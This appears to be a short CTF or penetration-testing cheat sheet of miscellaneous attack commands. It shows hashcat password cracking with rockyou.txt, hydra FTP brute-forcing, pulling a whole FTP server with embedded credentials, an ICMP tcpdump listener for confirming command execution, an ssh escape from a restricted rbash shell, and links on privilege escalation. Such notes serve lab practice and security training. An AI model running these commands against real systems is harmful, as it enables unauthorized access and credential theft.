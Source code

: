 # Miscellaneous

hashcat -a 0 -m 500 hash /root/Downloads/rockyou.txt --force

scp important.txt ubuntu@192.168.1.30:/home/ubuntu/transferred.txt

wget -m ftp://ftpuser:givemefiles777@10.10.94.48

python -m pyftpdlib 21\
\
hydra -e nsr -l elly ftp://192.168.249.148\


Turn passwd file into userlist to use in bruteforce:\
cut -d ":" -f 1 passwd > userlist\


{% embed url="https://github.com/PinkDraconian/CTF-bash-tools" %}

### TCPDUMP LISTENER

Start a tcpdump listener on your local machine.

**If using your own machine with the VPN connection, use:**

* `sudo tcpdump ip proto \\icmp -i tun0`

**If using the Ethernet, use:**

* `sudo tcpdump ip proto \\icmp -i eth0`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

**ping \<ATTACKER IP> -c 4**

****

If we know the  ssh credentials of the user who is part of rbash shell, then you can use the following command along ssh to break the jail and bypass the rbash by accessing proper bash shell.

`ssh seppuku@192.168.53.90 -t "bash --noprofile"`

### Python Library Hijacking

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/" %}

### Exploiting Wildcard&#x20;

{% embed url="https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/" %}
